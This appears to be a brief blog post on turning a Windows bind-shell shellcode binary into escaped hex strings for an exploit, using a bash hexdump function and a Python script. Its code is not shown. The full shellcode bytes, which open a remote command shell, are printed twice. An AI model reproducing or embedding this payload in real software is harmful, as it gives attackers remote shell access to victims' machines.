 
The other day I was working on a Windows machine and downloaded a small Windows bind shellcode from [https://code.google.com/p/w32-bind-ngs-shellcode/](https://code.google.com/p/w32-bind-ngs-shellcode/). I wanted to extract the shellcode from the bin file and pop it into my exploit. On Linux, this can be done with the following: 

<!--more-->

``` python
function bin2sc {
    # convert .bin to shellcode
    hexdump -v -e '"\\""x" 1/1 "%02x" ""' ${1}
}
```

Running this prints the shellcode out as one long string: 

```
# bin2sc w32-bind-ngs-shellcode.bin 
\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e\x08\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x51\x68\x32\x5f\x33\x32\x68\x66\x56\x77\x73\x68\xb7\x8f\x09\x98\x89\xe6\xb5\x03\x29\xcc\x29\xcc\x89\xe7\xd6\xf3\xaa\x41\x51\x41\x51\x57\x51\x83\xef\x2c\xa4\x4f\x8b\x5d\x3c\x8b\x5c\x1d\x78\x01\xeb\x8b\x4b\x20\x01\xe9\x56\x31\xd2\x42\x8b\x34\x91\x01\xee\xb4\x36\xac\x34\x71\x28\xc4\x3c\x71\x75\xf7\x3a\x27\x75\xeb\x5e\x8b\x4b\x24\x01\xe9\x0f\xb7\x14\x51\x8b\x4b\x1c\x01\xe9\x89\xe8\x03\x04\x91\xab\x80\x3e\x09\x75\x08\x8d\x5e\x04\x53\xff\xd0\x57\x95\x80\x3e\x73\x75\xb1\x5e\xad\xff\xd0\xad\xff\xd0\x95\x81\x2f\xfe\xff\x8f\x33\x6a\x10\x57\xad\x55\xff\xd0\x85\xc0\x74\xf8\x31\xd2\x52\x68\x63\x6d\x64\x20\x8d\x7c\x24\x38\xab\xab\xab\xc6\x47\xe9\x01\x54\x87\x3c\x24\x57\x52\x52\x52\xc6\x47\xef\x08\x57\x52\x52\x57\x52\xff\x56\xe4\x8b\x46\xfc\xe9\xca\xff\xff\xff
```

However, the Windows machine I was on didn't have hexdump installed. So I hacked up the following in python that extracts the hexadecimal values from the bin file and prints it out nicely formatted: 

{% gist 11164279 %}

Running the script gives us the following output:

```
C:\ python.exe bin2sc.py w32-bind-ngs-shellcode.bin 
"\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e\x08" +
"\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x51\x68\x32\x5f\x33" +
"\x32\x68\x66\x56\x77\x73\x68\xb7\x8f\x09\x98\x89\xe6\xb5\x03" +
"\x29\xcc\x29\xcc\x89\xe7\xd6\xf3\xaa\x41\x51\x41\x51\x57\x51" +
"\x83\xef\x2c\xa4\x4f\x8b\x5d\x3c\x8b\x5c\x1d\x78\x01\xeb\x8b" +
"\x4b\x20\x01\xe9\x56\x31\xd2\x42\x8b\x34\x91\x01\xee\xb4\x36" +
"\xac\x34\x71\x28\xc4\x3c\x71\x75\xf7\x3a\x27\x75\xeb\x5e\x8b" +
"\x4b\x24\x01\xe9\x0f\xb7\x14\x51\x8b\x4b\x1c\x01\xe9\x89\xe8" +
"\x03\x04\x91\xab\x80\x3e\x09\x75\x08\x8d\x5e\x04\x53\xff\xd0" +
"\x57\x95\x80\x3e\x73\x75\xb1\x5e\xad\xff\xd0\xad\xff\xd0\x95" +
"\x81\x2f\xfe\xff\x8f\x33\x6a\x10\x57\xad\x55\xff\xd0\x85\xc0" +
"\x74\xf8\x31\xd2\x52\x68\x63\x6d\x64\x20\x8d\x7c\x24\x38\xab" +
"\xab\xab\xc6\x47\xe9\x01\x54\x87\x3c\x24\x57\x52\x52\x52\xc6" +
"\x47\xef\x08\x57\x52\x52\x57\x52\xff\x56\xe4\x8b\x46\xfc\xe9" +
"\xca\xff\xff\xff"
```

Ta da. 
